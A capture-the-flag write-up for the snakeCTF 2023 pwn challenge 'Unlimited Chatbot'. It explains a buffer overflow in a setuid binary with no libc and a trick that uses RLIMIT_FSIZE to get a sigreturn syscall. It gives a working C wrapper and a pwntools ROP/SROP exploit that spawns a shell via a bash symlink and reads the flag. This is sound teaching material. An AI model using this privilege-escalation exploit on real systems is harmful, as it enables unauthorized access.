 # Unlimited Chatbot [_snakeCTF 2023_]

**Category**: pwn


## Description

Welcome to the preview of the revolutionary ChatBot - AI powered!

Ask whatever you want, our ChatBot, trained on over 10 million samples, will answer with the technical solution to a problem you did not know you had!

## Solution

### Reversing

The binary is compiled without libc, either linked or static.
For maximal confusion, we can notice that the STDIN and STDOUT file descriptors are swapped. This doesn't change anything as they all point to the same pts.

The challenge is served over SSH, and the binary is a setuid binary. The owner is the same as the flag file. Therefore, our objective is to hijack the binary and escalate privileges.

The entrypoint calls an `init` function, and then a `bot` function. The first sets the real, effective and saved user ID to those of the owner, opens the `answers.txt` file, and creates a random name for the output file. The `bot` function prints out some stuff, and then asks the user a question to submit to the extremely advanced chatbot. At the very end of the function, the answer of the chatbot is written to previously generated file.

### Vulnerability

The vulnerability is very simple to spot: the user input has a (very large) buffer overflow.

### Exploitation

As we don't have libc, the challenge immediately becomes much harder. Moreover, there are no gadgets that allow to directly control RAX, making it hard to call arbitrary syscalls. We can note that the value of RAX that we get after gaining control is that of the final write call to file.

With the small hint of the challenge name (unlimited, seen many times when running `ulimit -a`) and a bit of thinking (and reading the manual), we can note that there is an interesting limit in Linux (`man getrlimit`):

> `RLIMIT_FSIZE`: This is the maximum size of a file, in bytes, that may be created by a process. If a write or truncate operation would cause this limit to be exceeded, SIGXFSZ shall be generated for the thread. If the thread is blocking, or the process is catching or ignoring SIGXFSZ, continued attempts to increase the size of a file from end-of-file to beyond the limit shall fail with errno set to [EFBIG].

We can abuse this to get an arbitrary value into RAX by setting the `RLIMIT_FSIZE` to a useful value, such as that of the `sigreturn` syscall, which allows us to control all the registers.

Then we can use another trick: when calling `execve`, as per manual, the kernel looks into the current working directory for the name passed as `argv[0]`. As we can write in `/tmp`, we can simplify pwning the challenge by using a symlink in the cwd that points to bash.

The final solution uses a small wrapper that sets the FSIZE limit (setting the limit directly from the python script kills it), and a solver script that uploads everything to the SSH instance and runs a simple rop chain that calls syscall (sigreturn) with a stack setup to execute `execve` with our symlink as `argv[0]`.

Wrapper:

```c
#include <sys/resource.h>
#include <unistd.h>

// SYS_rt_sigreturn doesn't appear to exist in sys/syscall.h
// (actually makes sense)
#define SYS_rt_sigreturn 0x0f

int main() {
  struct rlimit rl;
  rl.rlim_cur = SYS_rt_sigreturn;
  rl.rlim_max = SYS_rt_sigreturn;
  setrlimit(RLIMIT_FSIZE, &rl);

  execl("/home/chall/bot", "bot", NULL);
}
```

Solver:

```py
#!/usr/bin/env python3

from pwn import *
import os

HOST = args.HOST if args.HOST else "localhost"
PORT = int(args.PORT) if args.PORT else 1337
PWD = args.PWD if args.PWD else "chall"

if args.LOCAL:
    exe = ELF("/home/chall/bot")
    context.binary = exe


def conn(*a, **kw):
    if args.LOCAL:
        return process([os.getcwd() + "/exec"], stdin=PTY)
    else:
        return ssh(user="chall", host=HOST, port=PORT, password=PWD)


io = conn()


def main():
    # good luck pwning :)

    if args.LOCAL:  # pwn the challenge locally
        context.log_level = "debug"
        rop = ROP(exe)
        rop.raw(rop.syscall.address)

        frame = SigreturnFrame(kernel="amd64")
        frame.rax = 0x3B
        frame.rdi = next(exe.search(b"xt\x00"))
        frame.rsi = 0
        frame.rdx = 0
        frame.rip = rop.syscall.address
        frame.rsp = exe.bss(0x100)

        payload = b"A" * 64
        payload += rop.chain()
        payload += bytes(frame)
        io.sendlineafter(b"ChatBot?\n", payload)

        io.clean()
        io.sendline(b"cat /home/chall/flag.txt")
        io.clean(timeout=2)
    else:  # upload everything needed via ssh
        cwd = io.set_working_directory()
        # make sure cwd can be accessed by chall-pwned (needed by symlink!)
        io.system(f"chmod +x {cwd}")
        # Send wrapper
        io.put("exec")
        # Send self
        io.put("solve.py")
        io.system(f"chmod +x *")
        # We use the string "xt" found in the binary as a symlink to bash
        io.system(f"ln -s $(which bash) xt")
        log.info("Run `./solve.py LOCAL` to pwn!")

        # Run the LOCAL part of this exploit
        sh = io.process(["/bin/sh"], env={"PS1": ""})
        sh.sendline(b"./solve.py LOCAL")
        log.success(sh.recvregex(b"snakeCTF{.*}", timeout=5).decode().strip())


if __name__ == "__main__":
    main()
```


